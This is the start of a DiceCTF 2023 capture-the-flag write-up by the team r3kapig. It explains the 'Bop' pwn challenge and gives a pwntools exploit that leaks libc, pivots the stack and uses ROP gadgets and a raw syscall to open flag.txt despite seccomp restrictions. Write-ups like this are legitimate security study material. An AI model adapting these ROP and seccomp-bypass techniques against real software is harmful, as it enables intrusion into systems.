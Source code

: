 # DiceCTF 2023 Writeup by r3kapig(EN)

## Preface:

This competition has won the second place🥈. Now the writeup of the members is sorted out as follows, and we can exchange and learn with you. Interested masters are welcome to submit their resumes to `root@r3kapig.com`, and we will contact you in time.

![](https://imgur.com/KewItPk.png)

## Pwn:

### Bop:

It's a simple, stack pivot chall, but since seccomp is set, only open, read, and write are available.
However, libc's open actually uses openat syscall, so I can't use it.

You can run open via the syscall gadget. There was a "syscall; ret;" gadget, but I overlooked it, so I just used the syscall gadget.

In order to use the syscall gadget for ROP, the master canary of libc must be overwritten.

```python
from pwn import *

#p = process('bop')
p = remote('mc.ax', 30284)

pay = b'a'*32 + p64(0x404120-0x8)
pay += p64(0x00000000004013d3+1) #ret
pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x404090)
pay += p64(0x4010F0) #printf
pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x404100) #bss
pay += p64(0x401100) #gets
pay += p64(0x401364) #leave_ret

p.sendline(pay)

libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x1ec980
print(f'libc_base = {hex(libc_base)}')

pay = b'flag.txt'.ljust(32,b'\x00')

pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x0)
pay += p64(libc_base+0x000000000002601f) #pop_rsi
pay += p64(libc_base - 0x2898)
pay += p64(libc_base+0x0000000000142c92) #pop_rdx
pay += p64(0x8)
pay += p64(libc_base+0x10dfc0) #read

pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x404100)
pay += p64(libc_base+0x000000000002601f) #pop_rsi
pay += p64(0x0)
pay += p64(libc_base+0x0000000000036174) #pop_rax
pay += p64(0x2) #open
pay += p64(libc_base+0x000000000007f1d2)
pay += p64(libc_base+0x25EE2) #syscall

```